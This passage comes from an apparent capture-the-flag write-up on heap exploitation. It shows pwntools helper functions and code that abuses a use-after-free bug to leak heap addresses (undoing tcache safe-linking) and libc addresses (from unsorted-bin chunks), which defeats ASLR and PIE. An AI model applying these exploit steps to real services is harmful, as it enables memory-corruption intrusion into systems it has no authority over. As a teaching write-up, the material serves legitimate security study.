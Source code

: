 ```python
    req += (size - len(req))*b"\0"
    p.send(req)
    mtype, _ = recvmsg()
    assert mtype == 0

def show_req(idx:int) -> bytes:
    menu(1)
    p.send(p32(idx))
    mtype, m = recvmsg()
    assert mtype == 0
    return m

def remove_req(idx:int) -> None:
    menu(2)
    p.send(p32(idx))
    mtype, _ = recvmsg()
    assert mtype == 0

def save_log() -> None:
    menu(3)
    mtype, _ = recvmsg()
    assert mtype == 0
```

### Getting leaks

Because of ASLR + PIE, we have no idea where is what in the memory. So, the first thing we'll do is to leak addresses of interesting things in the memory.
This can be accomplished by the fact that we can read free chunks, which are elements of linked lists, and thus contain interesting pointers.

We'll start by leaking the heap address thanks to a tcache chunk. The tcache chunks are singly-linked, and their pointers are "protected" by safe-linking, which just means that they are XORed with `pos >> 12`, `pos` being the address at which these pointers are written. The first tcache chunk does not have any successor, so its forward pointer is NULL, and reading it gives us the address of the heap. We can read it by creating a single request, deleting it, and show it, because we still have a pointer to it thanks to the bug in `remove_request`:

```python
add_req(0x100, b"A")
remove_req(0)
heap = unpack(show_req(0)[:5], "all") << 12
log.info(f'heap: {hex(heap)}')
```

To get the address of the libc, we can do the same with an unsorted bin chunk. They are doubly-linked, and their forward and backward pointers are not protected. We must first fill the tcache of the corresponding size first:

```python
for i in range(7):
    add_req(0x100, bytes([ord('A') + i]*0x100))
add_req(0x100, b"a")

for _ in range(7):
    remove_req(1)

remove_req(2) #a -> unsorted bin

libc.address = u64(show_req(2)[:8]) - 0x219ce0
log.info(f"Libc: {hex(libc.address)}")
```
